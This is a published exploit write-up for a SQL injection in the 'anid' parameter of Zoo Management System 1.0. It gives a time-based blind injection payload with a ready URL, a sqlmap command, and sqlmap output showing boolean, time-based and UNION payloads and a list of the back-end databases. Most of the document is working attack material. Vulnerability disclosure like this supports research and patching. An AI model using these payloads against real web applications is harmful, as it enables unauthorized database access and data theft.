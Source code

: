 INFO
----

    # Exploit Title: Zoo Management System 1.0 - 'anid' SQL Injection
    # Google Dork: N/A
    # Date: 29/1/2021
    # Exploit Author: Zeyad Azima
    # Vendor Homepage: https://phpgurukul.com/
    # Software Link: https://phpgurukul.com/zoo-management-system-using-php-and-mysql/
    # Version: V1
    # Tested on: Windows

    # Identify the vulnerability

    1- go to http://localhost/animals.php and click on an animal

    2- then add the following payload to the url

    payload: anid=9' AND (SELECT 8432 FROM (SELECT(SLEEP(5)))lMym) AND 'jMXh'='jMXh
    url: http://localhost/animal-detail.php?anid=1%20anid=9%27%20AND%20(SELECT%208432%20FROM%20(SELECT(SLEEP(5)))lMym)%20AND%20%27jMXh%27=%27jMXh

    If the web server makes you wait 5 seconds then it's vulnerable


    # Exploit

    Now you can exploit it using sqlmap

    command: sqlmap -u url --dbs

    example: sqlmap -u http://localhost/zms/animal-detail.php?anid=1 --dbs
           ___
           __H__
     ___ ___[.]_____ ___ ___  {1.4.10.16#dev}
    |_ -| . [.]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without
    prior mutual consent is illegal. It is the end user's responsibility
    to obey all applicable local, state and federal laws. Developers
    assume no liability and are not responsible for any misuse or damage
    caused by this program

    [*] starting @ 23:05:33 /2021-01-29/

    [23:05:34] [INFO] resuming back-end DBMS 'mysql'
    [23:05:34] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own
    ('PHPSESSID=ban6c541hos...n856fi447q'). Do you want to use those [Y/n]
    y
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: anid (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: anid=9' AND 1925=1925 AND 'JrZo'='JrZo

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: anid=9' AND (SELECT 8432 FROM (SELECT(SLEEP(5)))lMym) AND
    'jMXh'='jMXh

        Type: UNION query
        Title: Generic UNION query (NULL) - 8 columns
        Payload: anid=9' UNION ALL SELECT
    NULL,NULL,NULL,CONCAT(0x716b6b6271,0x5262686e75537a58716e565153775775796b547a4c56616b42647045536274444c6f6b585a654476,0x716a627171),NULL,NULL,NULL,NULL--
    -
    ---
    [23:05:36] [INFO] the back-end DBMS is MySQL
    web application technology: Apache 2.4.41, PHP 7.3.10, PHP
    back-end DBMS: MySQL >= 5.0.12
    [23:05:36] [INFO] fetching database names
    available databases [6]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] sys
    [*] umspsdb
    [*] zmsdb

    [23:05:36] [INFO] fetched data logged to text files under